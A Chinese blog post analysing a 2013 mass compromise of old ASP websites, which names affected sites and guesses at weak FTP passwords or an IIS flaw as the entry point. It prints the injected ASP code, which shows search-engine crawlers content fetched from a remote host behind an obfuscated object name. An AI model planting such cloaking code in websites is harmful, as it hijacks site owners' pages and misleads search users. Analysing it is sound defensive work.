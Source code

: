 ```yaml
---
title: 130109 关于 神速陈小白20130108 的一些事
layout: post
permalink: /2528.html
categories:
  - Code
tags:
  - asp
  - ftp
  - 猜测
  - 神速陈小白20130108
  - 黑客
---
```

一夜之间上百家 网站被 头部强制写入 神速陈小白20130108 其中有政府网站 电影网站 医疗网站 新闻网站。 简单分析了下 大概的可能性： 1:关于被黑网站 一些信息： 地域性: www.ychospital.cn 江西省宜春市 电信 www.syszfbz.com 辽宁省沈阳市 移动 也就是说不可能是同一台主机的 被泄露 导致批量修改 2: 代码都是基于 asp + table 的很老的网站 view-source:http://www.ychospital.cn/jkyd\_show.asp?id=789 view-source:http://www.syszfbz.com/ 不属于同一套cms 甚至是多种的 3: 关于黑客代码部分 群里朋友发我的 在这里贴下： sub Session\_OnStart user\_agent=Request.ServerVariables("HTTP\_USER\_AGENT") httpuser=LCase(request.servervariables("http\_user\_agent")) if instr(httpuser,"baidu")>0 or instr(httpuser,"google")>0 or instr(httpuser,"sogou")>0 or instr(httpuser,"soso")>0 then url=("http://www.shensumail.com/?"&#038;request.ServerVariables("QUERY\_STRING")&#038;"") Set ObjXMLHTTP=Server.createobject("MSX"+"ML2.s"+"erv"+"erXML"+"HTTP") ObjXMLHTTP.Open "GET",url,False ObjXMLHTTP.send GetHtml=ObjXMLHTTP.responseBody Set ObjXMLHTTP=Nothing set objStream = Server.CreateObject("Adodb.Stream") objStream.Type = 1 objStream.Mode =3 objStream.Open objStream.Write GetHtml objStream.Position = 0 objStream.Type = 2 objStream.Charset = "gb2312" GetHtml = objStream.ReadText objStream.Close key1=lcase(GetHtml) key1=Replace(key1&#038;"","-istxt-","") response.Write key1 end if end sub 类似于 一种淘金链写法 网站判断 来源用户的 user-agent 如果是搜索引擎 则展示 远程站点内容 上述被黑站点基本都是被修改的 总结： 1: ftp 弱密码扫描 2: asp iis 爆发 某种 致命漏洞 如果你有其他想法可以给我留言一起探讨